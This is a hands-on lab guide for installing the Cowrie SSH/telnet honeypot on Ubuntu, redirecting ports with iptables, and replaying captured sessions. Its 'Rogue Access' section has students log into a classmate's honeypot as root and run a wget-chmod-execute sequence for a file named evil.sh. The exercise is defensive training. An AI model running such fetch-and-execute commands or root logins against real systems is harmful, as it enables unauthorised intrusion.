





## LAB: Honeypot

**Objective**: Understand the concept of honeypots, particularly installation and setup of Cowrie.

* In this example we are using apnictraining.net as domain name.
* \# super user command
* $ normal user command
* X replace with the group number 
* Username `apnic` and password `training`

### Topology
The following will be the topology used for this lab.  Note that the IP addresses are examples only.  When working on the lab, use the actual IP addresses as indicated by the instructors.  For the purpose of this guide, the IP address of 192.168.30.X or 2001:db8:1::X will refer to your Virtual Machine (VM).

	[group1.apnictraining.net] [192.168.30.1]
	[group2.apnictraining.net] [192.168.30.2]
 	[group3.apnictraining.net] [192.168.30.3]
 	...................
 	[group30.apnictraining.net] [192.168.30.30]

### Lab Notes
* Confirm interface name:
  * On the VM, check the IP configuration to see the interface Name
  
			ip -br address show
			
  * In this guide the interface name is `eth0`. Depending on the version of Ubuntu the interface name may be `enp0s3` or something different. Where `eth0` is used in this guide replace it with your interface name.
* Virtual Machine (Container) details
  * Ubuntu 18.04 LTS/LXC
  * Hostname = groupXX.apnictraining.net
  * Domain name = apnictraining.net
  * IPv4 Address = 192.168.30.xx
  * IPv6 Address = 2001:db8:1::xx
  * xx = group ID as allocated by the instructor

## <a name="fenced-code-block">Install Cowrie</a>
1. Log into the server (SSH using the username and password from above), where **X** is the group number:

		ssh apnic@192.168.30.X

2. Update the list of Ubuntu repos to download resources from.
		
		sudo apt-get update

3. Cowrie requires Python3.7 or higher. Install Python3.7 and set as default python environment.

		sudo apt-get install -y python3.7	
		
	Confirm which version of python 3 is set as default
	
		python3 --version
		
	Add python 3.6 and python 3.7 to update-alternatives
	
		sudo update-alternatives --install /usr/bin/python3 python3 /usr/bin/python3.6 1
		
		sudo update-alternatives --install /usr/bin/python3 python3 /usr/bin/python3.7 2
		
	Update python 3 to point to python 3.7
	
		sudo update-alternatives --config python3
		
	Type `2` and hit enter to select python 3.7. 
	
	
	
	Confirm the default version of python3.
	
		python3 --version
		
4. Install dependencies.

		sudo apt-get install -y git iptables virtualenv python-virtualenv \
		 libssl-dev libffi-dev build-essential libpython3-dev python3-minimal \
		 authbind nano net-tools
		
5. Since we will be port-forwarding anything on the standard ssh and telnet ports to cowrie, we need to change the default ssh port of the server to something non-standard (use your favourite text editor).
           
 		sudo vi /etc/ssh/sshd_config
 		
  find the line that says port 22 and change it to 2200.

	
	
	* press `i` and change the port to `2200` 
	* save and quit by pressing `ESC` and `:wq` key combination

6. Restart the SSH service.

		sudo systemctl restart sshd.service

7. Check the status of SSH and confirm it is listening on port 2200.

		sudo systemctl status sshd.service
		
	

8. Open a new terminal (keep your old terminal open as a back up in case things go wrong) and ssh back into your server using the new port:

	    ssh apnic@192.168.30.X -p 2200
	    
9. Create a port forwarding rule to forward anything over standard ssh (22) and telnet (23) to Cowrie:

    	sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT \
    	 --to-port 2222
    	 
    	sudo iptables -t nat -A PREROUTING -p tcp --dport 23 -j REDIRECT \
    	--to-port 2223
    	
	**NOTE**: since this is just for this lab, no need to save the rules persistently. Verify the rule by:
	
        sudo iptables -t nat -L -n -v
    		
10. Create a Cowrie user account without a password.

		sudo adduser --disabled-password cowrie

			

## <a name="fenced-code-block">Install and configure  Cowrie</a>

1. Change to user cowrie.

		sudo su - cowrie
		
2. Install Cowrie.

		git clone http://github.com/cowrie/cowrie
		
3. Change to cowrie directory

		cd cowrie
		
4. Setup the Virtual Environment (make sure you are in the right working directory **home/cowrie/cowrie** using `pwd` )

		virtualenv --python=python3 cowrie-env
 		
5. Activate the Virtual environment and install the Python packages needed by Cowrie:

		$source cowrie-env/bin/activate
		(cowrie-env) $ pip install --upgrade pip
		(cowrie-env) $ pip install --upgrade -r requirements.txt

6. Find where telnet options are in the Cowrie configuration file:

		grep "\[telnet\]" -A 3 -in etc/cowrie.cfg.dist
		
	Take not of the line number and use this for the next step
		
7. Edit the Cowrie configuration file:

		vi +489 etc/cowrie.cfg.dist
		
	This should open the file at line number 489. Search for telnet (line 489) and enable telnet (change enabled = false to **enabled = true**)
	
	**NOTE**: In `vi` you can use the goto command. To do this, press `Esc` type the line number `489` and then press `Shift+g` . 
	
	

8. Save and quit editing the **cowrie.cfg.dist** file, by pressing `ESC` then `:wq` key combination.
    
9. Start Cowrie.   

		 $bin/cowrie start
		
10. Verify cowrie is running and listening on port **2222** and **2223**

		netstat -nat		
		
	**NOTE**: Do not close the terminal session to the server (the working directory should still be **/home/cowrie/cowrie**)
		
## <a name="fenced-code-block">Rogue Access to another machine</a>
**NOTE: Open a new terminal window for this exercise**

1. ssh or telnet to a honeypot instance operated by the person sitting next to you (try with username root and any random password)

		ssh root@192.168.30.X
		
2. Once logged in, issue the following commands:

		wget https://wiki.apnictraining.net/_media/evil.sh
		chmod +x evil.sh
		./evil.sh
		exit
		
3. You can try any linux command you want on the honeypot (SELinux).

## <a name="fenced-code-block">Analysis</a>

1. Identify the relevant information (ip address, URL, etc) from the logs in **var/log/cowrie/cowrie.log**

		(cowrie-env) $less var/log/cowrie/cowrie.log
2. List the captured sessions in **var/lib/cowrie/tty/** 

		(cowrie-env) $ls var/lib/cowrie/tty/
3. Replay the logs and take note of the activities of any particular session:

		(cowrie-env) $bin/playlog var/lib/cowrie/tty/[insert_log_file_name_here]

	Example
		
		(cowrie-env) $bin/playlog var/lib/cowrie/tty/fcf3004d8fc51aa573fbfc6dd375aa981087a38b2aa9b056c1b228dce8eb8a2f

## <a name="fenced-code-block">If playlog doesnt work</a>
Sometimes the installation of playlog doesnt work, so you will need to download the script for git.
1. Change into the directory to store the playlog script:

		cd /home/cowrie/cowrie/var/lib/cowrie

2. Download the python script called **playlog.py**

		curl https://raw.githubusercontent.com/cowrie/cowrie/master/src/cowrie/scripts/playlog.py

3. Make the script executable

		chmod +x playlog.py

4. Run the script to playback all the captured activity in the Cowrie honeypot

		.playlog.py ../var/lib/cowrie/tty/*

---
		
								***END OF EXERCISE***
									
Version: 20230510
